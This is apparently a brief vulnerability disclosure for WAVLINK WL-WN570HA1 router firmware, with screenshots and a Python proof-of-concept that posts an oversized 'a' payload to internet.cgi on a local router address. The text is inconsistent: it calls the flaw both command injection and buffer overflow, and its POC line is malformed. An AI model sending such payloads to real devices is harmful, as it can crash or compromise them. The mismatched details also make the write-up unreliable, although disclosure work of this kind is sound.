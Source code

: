 # buff overflow

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a command injection in internet.cgi/set_add_routing

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:


![](6.png)

get value from gateway

![](7.png)

and concate to v32, cause buff overflow



## POC
```
url = "http://192.168.0.1/cgi-bin/internet.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'wzdap', 'addrouting': + payload})
``` 
